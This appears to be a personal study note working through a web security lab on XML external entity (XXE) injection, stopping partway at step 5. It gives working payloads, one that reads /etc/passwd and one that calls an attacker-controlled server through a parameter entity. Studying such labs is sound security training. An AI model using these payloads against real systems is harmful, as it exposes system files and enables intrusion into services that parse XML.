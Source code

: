 
1. Find parameter in application that accepts XML input.

2. Test for regular entity by defining a [DTD] > try Parameter Entity if that doesn't work ( inject XML character in one of the parameters --> productID=1&)

```
<!DOCTYPE anything [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
```


> [!NOTE] #2 -> trying out regular & param entities
> If Application doesn't error our when trying regular, it is a good sign.
> Bad Sign: "doesn't accept external entities"



3. We got an ERROR when referencing the external entity. That is when we put -->  &xxe; 

```
<productId>
&xxe;
</productId>
```



4. Move on to Blind Regular Entity > by pinging our attacker controlled server


> [!NOTE] WHY the error in step 3? 
> If the application has some kind of defense in the back end that only outputs integers then we'll never see it in the response by using regular entities check




> [!NOTE] In Real World
> Would be using Burp Collab for this, but for the lab we are using the exploit server URL that they provide us 



5. Blind Regular Entity didn't work either -> "Invalid ProductId" > most likely doesn't allow reference to external entities > so now we move on to trying [parameter entity]

		note: might not have worked because they might have "egress" filitering
		so the server can't ping to an external domain



> [!NOTE] Param Entity
> Similar to regular entity > however 2 exceptions
> 1 . when referencing entity you have to use the percent sign --> %
> 2. Only referenced within the DTD & NOT outside of it



```
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://server_we_control.com"> %xxe;]>
```



> [!NOTE] DIFFERENT ERROR
> This time instead of "invalid parameter" > we get a "parsing error" > since application outputs the error of the parser, let's try to get contents from /etc/passwd > move on to step 6
